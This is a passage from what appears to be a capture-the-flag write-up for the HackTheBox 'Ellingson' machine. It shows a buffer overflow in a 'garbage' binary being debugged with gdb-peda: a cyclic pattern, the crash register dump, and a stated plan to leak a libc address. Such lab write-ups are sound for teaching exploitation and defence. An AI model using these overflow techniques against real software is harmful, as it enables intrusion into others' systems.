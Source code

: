 Nothing there is going to be useful as far as starting execution. I’ll need to use one of those to leak the address of a function in libc, and use that to calculate the address of a more useful function.

### RIP

Now I need to check that I can control RIP, and get the offset while I’m at it. First, I’ll create a pattern:

```

gdb-peda$ pattern_create 400
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%y'

```

Now, I’ll run the program (`r`), and enter that pattern when it asks me for the password:

```

gdb-peda$ r
Starting program: /media/sf_CTFs/hackthebox/ellingson-10.10.10.139/garbage
Enter access password: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$
A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%y

```

The program crashes:

```

[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7ec5804 (<__GI___libc_write+20>:    cmp    rax,0xfffffffffffff000)
RDX: 0x7ffff7f988c0 --> 0x0
RSI: 0x4059c0 ("access denied.\nssword: ")
RDI: 0x0
RBP: 0x6c41415041416b41 ('AkAAPAAl')
RSP: 0x7fffffffdf68 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%"...)         
RIP: 0x401618 (<auth+261>:      ret)
R8 : 0x7ffff7f9d500 (0x00007ffff7f9d500)
R9 : 0x7ffff7f97848 --> 0x7ffff7f97760 --> 0xfbad2a84
R10: 0xfffffffffffff638
R11: 0x246
R12: 0x401170 (<_start>:        xor    ebp,ebp)
R13: 0x7fffffffe060 ("vA%YA%wA%ZA%xA%y")
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40160d <auth+250>: call   0x401050 <puts@plt>
   0x401612 <auth+255>: mov    eax,0x0
   0x401617 <auth+260>: leave  
=> 0x401618 <auth+261>: ret    
   0x401619 <main>:     push   rbp
   0x40161a <main+1>:   mov    rbp,rsp
   0x40161d <main+4>:   sub    rsp,0x10
```
